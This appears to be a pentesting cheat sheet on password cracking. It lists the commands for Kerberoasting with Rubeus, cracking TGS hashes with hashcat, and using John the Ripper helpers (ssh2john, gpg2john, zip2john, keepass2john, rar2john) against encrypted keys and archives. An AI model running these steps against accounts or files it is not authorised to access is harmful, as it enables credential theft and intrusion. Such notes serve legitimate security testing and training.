 # Password Cracking

### Rubeus

```
.\Rubeus.exe kerberoast
hashcat -m 13100 -a 0 hash /usr/share/wordlists/rockyou.txt --force
```

#### Cracking passwords

```
hashcat -m 13100 --force <TGSs_file> /usr/share/wordlists/rockyou.txt
```

#### ssh2john

```
 Encrypted SSH private key found? Crack it with ssh2john
 
 1) ssh2john id_rsa > crack.txt
 2) john --wordlist=/usr/share/wordlists/rockyou.txt crack.txt
 3) openssl rsa -in id_rsa
    Enter pass phrase for id_rsa: PASSWORD_HERE
```

#### gpg2john

```

Encrypted PGP file found? Crack it with gpg2john
​
gpg --import name.asc 
gpg2john name.asc > hash
john --format=gpg --wordlist=/usr/share/wordlists/rockyou.txt hash 
gpg --decrypt somecredentials.pgp        # Enter
```

#### zip2john

```
Encrypted ZIP file found? Crack it with zip2john

1) zip2john somezipname.zip > zipname.hash
2) john zipname.hash 
3) 7z e somezipname.zip
   Enter password (will not be echoed): PASSWORD_HERE
```

#### keepass2john

```
keepass2john some_pass_key.kdbx
```

#### rar2john

```
rar2john SOME_FILE.rar > crack_this
john --wordlist=/usr/share/wordlists/rockyou.txt crack_this
```
